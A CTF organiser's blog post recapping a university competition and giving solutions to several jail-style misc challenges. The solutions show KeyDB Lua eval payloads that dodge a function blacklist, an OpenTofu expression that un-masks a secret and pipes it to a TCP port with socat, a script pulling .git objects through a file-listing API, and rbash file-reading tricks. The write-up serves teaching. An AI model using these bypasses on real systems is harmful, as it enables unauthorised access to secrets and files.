```yaml
---
title: "CyberTEK-CTF 20k24"
date: 2024-05-05
draft: false
description: "a description"
tags: ["ctf", "misc"]
---
```


### Intro;
Last weekend, we had the privilege of organizing a local CTF competition at TEKUP University. The competition featured +30 custom-authored challenges spanning diverse categories. 
The event saw an amazing turnout with 50+ teams and 140+ players joining in. The feedback was incredibly positive, with many participants enjoying the challenges and the overall experience.


### About;
  - Event place: TEKUP University. 
  - Event duration: `14hrs`.
  - Flag format: Securinets{.*}.

### Challenges;
The CTF showcased a wide variety of challenges across multiple categories, and I had the privilege to author 6 challenges for the Misc category although most of them are jail-oriented tasks. Below is a detailed breakdown of the challenges and their difficulty levels:

|   Challenge     | Points | Solves |  Author |
|-----------------|--------|--------|---------|
|   [Siclodb]()       |  500   |   1    | chxmxii |
|   [Openheimer]()    |  440   |   6    | chxmxii |
|   [bolbok]()        |  470   |   4    | chxmxii |
|   [ekko]()          |  494   |   7    | chxmxii |
|   [heimerdigger]()  |  146   |   18   | xhlayel, chxmxii |

#### Siclodb;
This challenge was a bit tricky. I blacklisted several KeyDB functions to prevent players from directly retrieving the value of the flag key. The twist was that many participants were unaware they could use eval() in the KeyDB console or leverage redis.call() as an alternative to KeyDB.call() (since keydb is a fork of redis) to bypass the restrictions. However the final payload should look like that;
```shell
$ eval "local a='du'; a=a..'mp';local b='fl';b=b..'ag'; local k=redis.call(a, b); return k;" 0
$ eval "local a='ge'; a=a..'t';local b='fl';b=b..'ag'; return cjson.encode(redis.call(a, b))" 0
```
---
#### Openheimer;
In case you're unfamiliar, OpenTofu is a community-driven fork of the popular Infrastructure-as-Code tool Terraform, created after some licensing changes caused controversy. To introduce OpenTofu to the community, I designed this challenge, which allows players to connect to an OpenTofu console.

The objective is for players to figure out how to list the OpenTofu secrets. There are several ways to solve this, and one possible solution is shown below:

```shell
nonsensitive(urlencode(var.SECRET)) | socat - TCP:localhost:13337
```
For more; 
{{< alert "link" >}}
https://opentofu.org/docs/language/functions/nonsensitive/
{{< /alert >}}

---
#### Ekko;
The challenge present two API endpoints, one for listing directories and another for reading file contents. This inspired the challenge's description, ls && cat made easy. Without diving too deep into the specifics, you can find the solution for this challenge below:
```python
from os import listdir, path
import requests, re, zlib\

url = "https://ekko.securinets-tekup.tech/"
commit_list = []
request = requests.get(url + "ls?q=...git/objects")
objects = re.findall("\w+", request.text)

if request.status_code == 200:
    for obj in objects:
        get_commit = requests.get(url + "ls?q=...git/objects/" + obj + "/")
        commits = re.findall("\w+", get_commit.text)
        for commit in commits:
            get_blob = requests.get(url + "cat?q=...git/objects/" + obj + "/" + commit)
            with open(commit + ".zlib", "wb") as f:
                f.write(get_blob.content)

for blob in listdir("."):
    with open(blob, "rb") as f:
        blob_content = f.read()
    f.close()
    try:
        decompressed_blob = zlib.decompress(blob_content)
    except zlib.error as e:
        print(f"Zlib error: {e}")
    flag = re.search("Securinets.*", str(decompressed_blob))
    if flag:
        print(flag.group())
```

---
#### Bolbok
In this challenge, players were placed in a restricted shell environment, `rbash`, with limited command options. The flag was hidden in a directory with an ambiguous name, making it tricky to locate. However, for those familiar with `ls` and `grep`, the solution was straightforward:

```shell
ls -Ra / | grep flag -B3
<path>:
.
..
.flag
```
Players had to figure out how to read its contents within the restricted shell.
```shell
echo $(< <path>/.flag)
Securinets{FLAG}
OR
while read line; do echo $line; done < <path>/.flag
Securinets{FLAG}
``` 

---
#### Heimerdigger;
dive into the docker layers and collect the deleted files.
one of the files gave us a hint about fixing the corrupted jpg file `f(byte) = (15 - byte) modulos 256`

```python
def transform_file(input_image_path, output_image_path):
    with open(input_image_path, 'rb') as input_file:
        data = input_file.read()
    modified_data = bytearray((15 - byte) % 256 for byte in data)
    with open(output_image_path, 'wb') as output_file:
        output_file.write(modified_data)
        print("Modified image saved to:", output_image_path)

# Usage
input_image_path = "./01946.jpg"
output_image_path = "./heimer.jpg"
transform_file(input_image_path, output_image_path)
``` 
---
### Das Ende;

A huge shoutout to everyone who helped make this event a success-Securitnets TEKUP, the participants, and the support from TEKUP University.
For more insights, detailed write-ups, or to access the challenge files, check out my GitHub repository: {{< github repo="chxmxii/kubegoros" >}}